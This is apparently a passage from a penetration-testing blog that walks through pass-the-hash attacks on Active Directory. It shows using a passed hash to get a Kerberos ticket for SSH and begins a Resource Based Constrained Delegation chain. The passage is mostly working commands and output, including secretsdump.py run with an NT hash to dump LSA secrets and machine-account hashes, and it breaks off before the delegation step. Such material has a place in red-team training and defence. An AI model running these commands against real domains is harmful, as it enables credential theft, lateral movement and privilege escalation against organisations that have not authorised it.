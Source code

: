 How: You cannot pass the hash to SSH, but you can connect with a Kerberos ticket (Which you can get by passing the hash!). First, try connecting using SSH and enable verbose messages.

1
2
3
4
5
ssh -o GSSAPIAuthentication=yes user@domain.local -vv
debug1: Authentications that can continue: publickey,gssapi-keyex,gssapi-with-mic,password
debug1: Next authentication method: gssapi-with-mic
debug1: Unspecified GSS failure.  Minor code may provide more information
No Kerberos credentials available (default cache: FILE:/tmp/krb5cc_1045)
Likely you will see that it is expecting the krb5 ticket somewhere else (depends on your UID) so move your ticket there instead.

1
cp user.ccache /tmp/krb5cc_1045
Once you have your ticket in the right spot, try to connect again.  If it doesn’t work, also consider using -l to specify the username.

1
2
3
ssh -o GSSAPIAuthentication=yes user@domain.local
 
[user@computer ~]$
Resource Based Constrained Delegation (RBCD)
What: If you have write privileges (WriteDACL, GenericWrite, GenericAll, etc) over a computer object, it is possible to gain elevated command execution on it.  This is not a new way to pass the hash beyond what is previously mentioned, but this attack chain incorporates multiple PTH techniques such as PTH via SMB, PTH to LDAP, PTH to get a kerberos ticket, and finally pass the ticket.

In this example we are assuming one computer object has write access over another computer object.

Why: Often times I find that there are no simple attack paths in an environment, and Active Directory privilege escalation requires exploiting ACL based attacks.

How: First, pass the hash of a user with administrative access to the first computer to recover that computers NT hash.

1
2
3
4
5
6
7
8
secretsdump.py ituser@PC01.domain.local -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79
 
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
DOMAIN\$:aes256-cts-hmac-sha1-96:fbc8df96a7709ec33edc50d2d9394d8e28c6bc65697f9bdfaf78009850cfa69d
DOMAIN\PC01$:aes128-cts-hmac-sha1-96:fe0acc236a82bd74fdcaa593f51481f2
DOMAIN\PC01$:des-cbc-md5:cd4308d6f285fc82
DOMAIN\PC01$:aad3b435b51404eeaad3b435b51404ee:6216d3268ba7634e92313c8b60293248:::
Second, use the rbcd_permissions script to pass the hash of the computer account to the domain controller via LDAP to update the msDS-AllowedToActOnBehalfOfOtherIdentity property for the second computer.  This will allow the first computer to impersonate any domain user on that system.
